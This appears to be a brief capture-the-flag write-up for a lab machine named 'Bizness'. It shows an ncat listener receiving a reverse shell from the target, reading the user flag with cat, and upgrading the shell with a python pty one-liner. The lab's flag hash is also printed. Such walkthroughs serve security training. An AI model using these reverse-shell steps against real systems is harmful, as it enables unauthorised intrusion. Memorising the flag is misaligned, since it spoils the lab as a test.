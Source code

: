 # Bizness





We have the access to the machine
```
❯ ncat -lvnp 9999
Ncat: Version 7.94 ( https://nmap.org/ncat )
Ncat: Listening on [::]:9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.11.252:42908.
ls
APACHE2_HEADER
applications
build
build.gradle
common.gradle
config
docker
Dockerfile
DOCKER.md
docs
framework
gradle
gradle.properties
gradlew
gradlew.bat
init-gradle-wrapper.bat
INSTALL
lib
LICENSE
NOTICE
npm-shrinkwrap.json
OPTIONAL_LIBRARIES
plugins
README.adoc
runtime
SECURITY.md
settings.gradle
themes
VERSION
pwd
/opt/ofbiz
ls /home
ofbiz
ls /home/ofbiz
user.txt
cat /home/ofbiz/user.txt
18c7f3fefb466e78be6db5af567fc81d
```

the shell it's not clear at all, let's make it clear
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

That's better !
```
ofbiz@bizness:/opt/ofbiz$
```


